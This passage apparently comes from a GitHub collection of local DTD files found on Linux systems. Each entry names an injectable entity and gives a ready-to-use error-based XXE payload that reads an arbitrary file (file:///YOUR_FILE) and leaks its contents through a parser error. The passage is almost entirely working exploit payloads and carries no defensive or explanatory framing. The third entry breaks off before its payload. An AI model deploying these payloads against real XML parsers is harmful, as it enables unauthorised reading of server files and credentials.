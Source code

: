 ```
```

 --- 

**DTD File:** `/usr/share/sgml/dtd/xml-core/catalog.dtd`

**Injectable entity:** `publicIdentifier`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/sgml/dtd/xml-core/catalog.dtd">

    <!ENTITY % publicIdentifier '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

---

**DTD File:** `/usr/share/xml/schema/xml-core/catalog.dtd`

**Injectable entity:** `partialPublicIdentifier`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/schema/xml-core/catalog.dtd">

    <!ENTITY % partialPublicIdentifier '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/etc/vmware-tools/vgauth/schemas/XMLSchema.dtd`

**Injectable entity:** `xs-datatypes`
